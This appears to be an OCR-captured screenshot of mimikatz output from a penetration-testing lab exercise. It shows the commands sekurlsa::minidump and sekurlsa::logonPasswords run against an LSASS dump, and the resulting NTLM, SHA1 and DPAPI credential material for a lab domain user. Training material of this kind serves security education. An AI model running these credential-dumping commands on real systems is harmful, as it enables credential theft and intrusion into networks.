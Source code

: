 ## \ / ## > https://blog.gentilkiwi.com/mimikatz

'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )

'#####' > https://pingcastle.com / https://mysmartlogon.com ***/

​

mimikatz # sekurlsa::minidump C:\lsass.dmp

Switch to MINIDUMP : 'C:\lsass.dmp'

​

mimikatz # sekurlsa::logonPasswords

Opening : 'C:\lsass.dmp' file for minidump...

​

<SNIP>

Authentication Id : 0 ; 160212 (00000000:000271d4)

Session : Service from 0

User Name : vfrank

Domain : INLANEFREIGHT

Logon Server : ACADEMY-PIVOT-D

Logon Time : 3/5/2023 4:19:44 PM

SID : S-1-5-21-3858284412-1730064152-742000644-1103

msv :

[00000003] Primary

* Username : vfrank

* Domain : INLANEFREIGHT

* NTLM : 2e16a00be74fa0bf862b4256d0347e83

* SHA1 : b055c7614a5520ea0fc1184ac02c88096e447e0b

* DPAPI : 97ead6d940822b2c57b18885ffcc5fb4

tspkg :

wdigest :

* Username : vfrank

* Domain : INLANEFREIGHT

* Password : (null)

kerberos :

* Username : vfrank
